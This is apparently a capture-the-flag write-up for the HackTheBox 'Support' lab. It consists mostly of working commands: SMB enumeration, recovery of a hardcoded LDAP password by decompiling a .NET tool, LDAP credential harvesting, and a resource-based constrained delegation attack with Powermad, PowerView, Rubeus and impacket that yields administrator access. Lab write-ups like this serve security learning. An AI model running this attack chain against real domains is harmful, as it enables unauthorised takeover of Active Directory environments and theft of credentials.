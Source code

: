 # User
After a quick nmap, we find smb open.
#smbclient #smbmap
```sh
smbclient -L //10.129.230.181/ -U Anonymous
smbmap -r -u Anonymous -p '' -H 10.129.230.181
```
So we connect
```
smbclient //10.129.230.181/support-tools/ -U Anonymous
```
When we unzip the UserInfo.exe file, we run strings on it, and find that there's some base64 encoded thing in there. Maybe #ghidra can help.
Looks interesting.
![[Pasted image 20240524134507.png]]
Maybe this is their password?
![[Pasted image 20240524134629.png]]
```
armando
0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E
```
but we also have:
```
support\ldap
```
So that string above is encrypted. Interesting.
Decoding the file with an online c# decompiler we get this:
```c#
static Protected()  
{  
Protected.enc_password = "0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E";  
Protected.key = Encoding.ASCII.GetBytes("armando");  
}
public static string getPassword()  
{  
byte[] array = Convert.FromBase64String(Protected.enc_password);  
byte[] array2 = array;  
for (int i = 0; i < array.Length; i++)  
{  
array2[i] = (array[i] ^ Protected.key[i % Protected.key.Length] ^ 223);  
}  
return Encoding.Default.GetString(array2);  
}
```
Decrypting yields:

```
nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz
```
#ldapsearch time
```
ldapsearch -x -H ldap://support.htb -D 'support\ldap' -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b 'CN=Users,DC=support,DC=htb'
```
This gives us another cred
```
Ironside47pleasure40Watchful
```
Let's try to login with #evil-winrm 
And we have User
# root
Let's use #powermad for some #constrained-delegation-exploit with some #powerview  to help
```powershell
Import-Module C:\Users\support\Documents\Powermad.ps1
new-machineaccount -MachineAccount deeznutz -Password $(convertto-securestring 'rhuge1!' -asplaintext -force) -verbose
upload PowerView.ps1
Import-Module C:\Users\support\Documents\PowerView.ps1
$ComputerSid = Get-DomainComputer deeznutz -Properties objectsid | Select -Expand objectsid
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$ComputerSid)"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)
Get-DomainComputer $targetComputer | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}
Get-DomainComputer $targetComputer -Properties 'msds-allowedtoactonbehalfofotheridentity'
```
Now we need to use #Rubeus and #impacket-getST-Ticketgrab
``` WEB
https://github.com/r3motecontrol/Ghostpack-CompiledBinaries/blob/master/Rubeus.exe
```
```powershell
upload Rubeus.exe
C:\Users\support\Documents\Rubeus.exe hash /password:rhuge1! /user:deeznutz$ /domain:support.htb
```
```sh
impacket-getST support.htb/deeznutz -dc-ip dc.support.htb -impersonate administrator -spn http/dc.support.htb -aesKey 3A5EEC73AAEB8D7E24CC8E17ABA9B4709F7D7507B791ACFC3D59BED4654E1572
```
Finally we exploit with #impacket-smbexec
```
export KRB5CCNAME=administrator@http_dc.support.htb@SUPPORT.HTB.ccache
impacket-smbexec support.htb/administrator@dc.support.htb -no-pass -k
```
